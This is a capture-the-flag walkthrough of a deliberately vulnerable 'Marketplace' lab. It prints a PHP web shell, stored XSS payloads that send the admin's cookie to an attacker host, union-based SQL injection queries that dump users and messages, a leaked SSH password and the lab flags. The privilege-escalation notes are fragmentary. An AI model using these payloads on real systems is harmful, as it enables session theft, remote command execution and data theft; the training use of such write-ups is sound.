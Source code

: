## The Marketplace

```
export $IP=10.10.112.3
```

***Briefing
The sysadmin of The Marketplace, Michael, has given you access to an internal server of his, so you can pentest the marketplace platform he and his team has been working on. He said it still has a few bugs he and his team need to iron out.***



- Finding found a JWT Token present

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoidGVzdCIsImFkbWluIjpmYWxzZSwiaWF0IjoxNzQwNDY4MjQyfQ.P6DhcP0D_Xp8ZCLfecimxWmcPapzK0hs3yr_Givf_is
```
# decoded header :
```
	{
	  "alg": "HS256",
	  "typ": "JWT"
	}
```
# decoded payload
```
	{
	  "userId": 4,
	  "username": "test",
	  "admin": false,
	  "iat": 1740468242
	}
```
- found a disabled file upload on the add listing page
- uploaded a php shell
# php shell:
```

         <?php system($_GET["cmd"]); ?>

```
- Started directory busting with gobuster to check the shell uploaded

# gobuster
```
   gobuster dir -u http://10.10.112.3  -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x sh,cgi,log,html,php 
```

- found a stored xss at new listing tried classic vanilla  xss

```
  
  	test <script>alert(1)</script>

```
- ***found insecure flag settings in cookies  so we can steal cookies of admin***
   redirect the document.cookie throught callback on the local machine via
```

	test<script>document.location="http://$IP/"+document.cookie</script>

```
 not a recommended method because the user page gets redirected to attackers server  and if the attacker server isnt serving anything the page stops of lags , it does fresh a request and we dont want one , we do want asynchronous
 request this is another method and this method  doesnt block the main thread of javascript which is document,make a tag object and its attributes will request  the server 

 we want async request so payload for the same is 
 ```
 <script>
 var img=new Image();
 img.src="http://10.9.241.1740468242/?cookie=" +document.cookie
 </script>
```
Here we just created an img variable and stored Image object in it  and on the next line I just accesed the attribute of Image object src through img.
so the img.src will make an request to our endpoint and this will evaluate to "http://$IP/?cookie=" +document.cookie to the document.cookie and will appear in log section of our server
start the listner and add the listing we will get our cookie back in output

now if we report listing to admin our payload will evaluate to admin's cookie
```
GET /?cookie=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3NDE0NTU2ODV9.gYBdkR3cnQnIcw7FOLN8R50pIFtZ2k0z4S7PCIehKUA
```
so 
## Flag 1
```
THM{c37a63895910e478f28669b048c348d5}
```
sql injection query for backend
```
select user_name,user_id,is_admin,column_4 from users where user_id = $user_id order by 4;
```

```
?user=0 union select 5,(select group_concat(table_name) from information_schema.tables where table_schma=marketplace),7,8;
```	

output for table 
```
 User items,messages,users
ID: 5
Is administrator: true
```
output for  column name
```
user=0 union select  5,(select group_concat(column_name) from information_schema.columns where table_name='users'),7,8;
```

output ::
```
user=0 union select  (select group_concat(username) from users),(select group_concat(password) from users),7,8;
```
hashes are uncrackable because they are bcrypt

```
user=0 union select  5,(select group_concat(column_name) from information_schema.columns where table_name='messages'),7,8;
```
output
User id,user_from,user_to,message_content,is_read
ID: 5
Is administrator: true

```
select group_concat(message_content) from messages
```

 Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_ENXkGYUCAv3zJ

 probably the password is for jake 

 for privesc creat files check and check point 

 python -c "import pty;pty.spawn('/bin/bash')"


Root flag
```
 THM{d4f76179c80c0dcf46e0f8e43c9abd62}
```
